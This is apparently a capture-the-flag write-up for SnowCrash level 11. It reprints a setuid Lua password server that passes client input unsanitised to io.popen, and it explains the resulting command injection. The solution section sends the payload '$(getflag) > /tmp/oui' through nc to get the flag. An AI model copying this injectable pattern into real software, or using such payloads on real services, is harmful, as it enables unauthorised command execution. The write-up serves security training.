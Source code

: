 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w"). 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

What we can understand:
- A server seems to be set up on our `localhost` on port `5151`
- It will ask for a passord
- Will sends this password in a hash function
- Will apply a sha1sum on it
- Will return the 40 first characters of it
- And will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

`popen` is known for its vunerability to command injections, as it will execute code, see: 
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So io.popen starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program `level11.lua` will execute 
```bash
echo "..pass.." | sha1sum
```
`echo "$(command)"` will execute the command.


## Solution

So we should listen to the port 5151: </br>
`nc localhost 5151`</br>
`Password: $(getflag)`</br>
don't return the flag.

Maybe on a different file: </br>
`nc localhost 5151`</br>
`Password: $(getflag) > /tmp/oui`</br>
`cat /tmp/oui` gives us the flag.
